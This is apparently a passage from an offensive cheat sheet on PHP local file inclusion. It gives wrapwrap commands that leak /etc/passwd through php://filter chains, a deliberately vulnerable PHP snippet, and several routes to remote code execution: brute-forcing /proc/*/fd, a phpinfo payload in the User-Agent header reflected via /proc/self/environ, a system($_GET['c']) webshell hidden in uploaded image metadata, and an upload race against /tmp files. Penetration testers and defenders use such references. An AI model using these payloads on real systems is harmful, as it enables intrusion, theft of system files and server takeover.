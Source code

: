 #### Leak file content inside a custom format output

* [ambionics/wrapwrap](https://github.com/ambionics/wrapwrap) - Generates a `php://filter` chain that adds a prefix and a suffix to the contents of a file.

To obtain the contents of some file, we would like to have: `{"message":"<file contents>"}`.

```ps1
./wrapwrap.py /etc/passwd 'PREFIX' 'SUFFIX' 1000
./wrapwrap.py /etc/passwd '{"message":"' '"}' 1000
./wrapwrap.py /etc/passwd '<root><name>' '</name></root>' 1000
```

This can be used against vulnerable code like the following.

```php
<?php
  $data = file_get_contents($_POST['url']);
  $data = json_decode($data);
  echo $data->message;
?>
```


## LFI to RCE via /proc/*/fd

1. Upload a lot of shells (for example : 100)
2. Include http://example.com/index.php?page=/proc/$PID/fd/$FD, with $PID = PID of the process (can be bruteforced) and $FD the filedescriptor (can be bruteforced too)


## LFI to RCE via /proc/self/environ

Like a log file, send the payload in the User-Agent, it will be reflected inside the /proc/self/environ file

```powershell
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```


## LFI to RCE via upload

If you can upload a file, just inject the shell payload in it (e.g : `<?php system($_GET['c']); ?>` ).

```powershell
http://example.com/index.php?page=path/to/uploaded/file.png
```

In order to keep the file readable it is best to inject into the metadata for the pictures/doc/pdf


## LFI to RCE via upload (race)

* Upload a file and trigger a self-inclusion.
* Repeat the upload a shitload of time to:
* increase our odds of winning the race
* increase our guessing odds
* Bruteforce the inclusion of /tmp/[0-9a-zA-Z]{6}
* Enjoy our shell.
